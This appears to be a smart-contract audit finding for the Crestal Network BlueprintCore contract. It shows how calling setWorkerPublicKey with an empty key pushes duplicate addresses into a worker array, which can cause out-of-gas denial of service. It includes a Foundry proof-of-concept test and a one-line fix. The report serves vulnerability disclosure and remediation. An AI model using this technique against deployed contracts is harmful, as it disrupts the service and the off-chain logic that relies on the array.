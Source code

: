 Active Cloth Tortoise

Medium

# Attacker can make `workerAddressesMp` array grow indefinitely with non-unique addresses

### Summary

The function external `setWorkerPublicKey()` allows an attacker to pass an empty string as `publicKey`. This bypasses the requirement of the function to avoid having repeated keys in the array `workerAddressesMp[WORKER_ADDRESS_KEY]`. Also, it could make the array grow big enough so that the view function `getWorkerAddresses()` reverts out of gas. 

Any off-chain functionality assumptions on unique values of that array are broken.  

### Root Cause

Passing `publicKey = ""` will fulfill the condition `workersPublicKey[msg.sender].length == 0`, and will push `msg.sender` again into the `workerAddressesMp[WORKER_ADDRESS_KEY]` as many times as wanted. 

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L690C13-L690C29

```solidity
    function setWorkerPublicKey(bytes calldata publicKey) public {
>>>     if (workersPublicKey[msg.sender].length == 0) {
            workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
        }

        workersPublicKey[msg.sender] = publicKey;
    }
```

### Internal Pre-conditions

None.

### External Pre-conditions

None.

### Attack Path

1. Attacker calls the function `setWorkerPublicKey(bytes calldata publicKey)` calling `publicKey` as an empty array of bytes. Pushing the `msg.sender` to the array every time. 

### Impact

- Offchain logic relying on having unique values on the `workerAddressesMp[WORKER_ADDRESS_KEY]` array can break.
- An attacker can DOS the view `getWorkerAddresses()` if the array is long enough. 

### PoC

Paste the following code at the bottom of `test/BlueprintV5.t.sol`:

```solidity

contract Pocs is BlueprintTest {
    function test_workerAddressesArray() public {
        blueprint.addPaymentAddress(address(mockToken));
        address attacker = makeAddr("attacker");

        bytes memory publicKey = "";
        vm.startPrank(attacker);
        blueprint.setWorkerPublicKey(publicKey);
        blueprint.setWorkerPublicKey(publicKey);
        blueprint.setWorkerPublicKey(publicKey);
        vm.stopPrank();

        /// Validation: the array contains the attacker address multiple times
        address[] memory workerAddresses = blueprint.getWorkerAddresses();
        assertEq(workerAddresses.length, 3);
        assertEq(workerAddresses[0], attacker);
        assertEq(workerAddresses[1], attacker);
        assertEq(workerAddresses[2], attacker);
    }
}
```

### Mitigation

```diff
    function setWorkerPublicKey(bytes calldata publicKey) public {
+       require(publicKey.length > 0, "invalid publicKey");
        if (workersPublicKey[msg.sender].length == 0) {
            workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
        }

        workersPublicKey[msg.sender] = publicKey;
    }
```